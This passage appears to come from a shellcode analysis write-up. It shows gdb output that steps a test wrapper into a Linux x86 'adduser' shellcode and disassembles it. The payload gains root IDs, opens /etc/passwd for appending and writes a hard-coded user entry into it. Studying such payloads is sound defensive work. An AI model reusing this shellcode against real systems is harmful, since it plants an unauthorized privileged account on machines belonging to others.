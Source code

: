        0x08048472 <+37>: mov    DWORD PTR [esp+0x1c],0x804a040  
       0x0804847a <+45>: mov    eax,DWORD PTR [esp+0x1c]  
       0x0804847e <+49>: call   eax  
       0x08048480 <+51>: leave    
       0x08048481 <+52>: ret      
    End of assembler dump.  
    (gdb) break *0x804a040  
    Breakpoint 1 at 0x804a040  
    (gdb) r  
    Starting program: /home/abatchy/Desktop/workspace/adduserWrapper.out   
    Shellcode size: 40  
      
    Breakpoint 1, 0x0804a040 in sc ()  
    

  
**Shellcode disassembly:**  
  

    
    
    Dump of assembler code for function sc:  
       0x0804a040 <+0>: xor    ecx,ecx  
       0x0804a042 <+2>: mov    ebx,ecx  
       0x0804a044 <+4>: push   0x46  
       0x0804a046 <+6>: pop    eax  
       0x0804a047 <+7>: int    0x80  
       0x0804a049 <+9>: push   0x5  
       0x0804a04b <+11>: pop    eax  
       0x0804a04c <+12>: xor    ecx,ecx  
       0x0804a04e <+14>: push   ecx  
       0x0804a04f <+15>: push   0x64777373  
       0x0804a054 <+20>: push   0x61702f2f  
       0x0804a059 <+25>: push   0x6374652f  
       0x0804a05e <+30>: mov    ebx,esp  
       0x0804a060 <+32>: inc    ecx  
       0x0804a061 <+33>: mov    ch,0x4  
       0x0804a063 <+35>: int    0x80  
       0x0804a065 <+37>: xchg   ebx,eax  
       0x0804a066 <+38>: call   0x804a090 <sc+80>  
       0x0804a06b <+43>: popa     
       0x0804a06c <+44>: bound  esp,QWORD PTR [ecx+0x74]  
       0x0804a06f <+47>: arpl   WORD PTR [eax+0x79],bp  
       0x0804a072 <+50>: cmp    al,BYTE PTR [ecx+0x7a]  
       0x0804a075 <+53>: bound  eax,QWORD PTR [edi+0x66]  
       0x0804a078 <+56>: push   eax  
       0x0804a079 <+57>: cmp    BYTE PTR ss:[eax],bh  
       0x0804a07c <+60>: dec    esi  
       0x0804a07d <+61>: je     0x804a0e0  
       0x0804a07f <+63>: cmp    dh,BYTE PTR cs:[eax]  
       0x0804a082 <+66>: cmp    dh,BYTE PTR [eax]  
       0x0804a084 <+68>: cmp    bh,BYTE PTR [edx]  
       0x0804a086 <+70>: das      
       0x0804a087 <+71>: cmp    ch,BYTE PTR [edi]  
       0x0804a089 <+73>: bound  ebp,QWORD PTR [ecx+0x6e]  
       0x0804a08c <+76>: das      
       0x0804a08d <+77>: jae    0x804a0f7  
       0x0804a08f <+79>: or     bl,BYTE PTR [ecx-0x75]  
       0x0804a092 <+82>: push   ecx  
       0x0804a093 <+83>: cld      
       0x0804a094 <+84>: push   0x4  
       0x0804a096 <+86>: pop    eax  
       0x0804a097 <+87>: int    0x80  
       0x0804a099 <+89>: push   0x1  
       0x0804a09b <+91>: pop    eax  
       0x0804a09c <+92>: int    0x80  
       0x0804a09e <+94>: add    BYTE PTR [eax],al  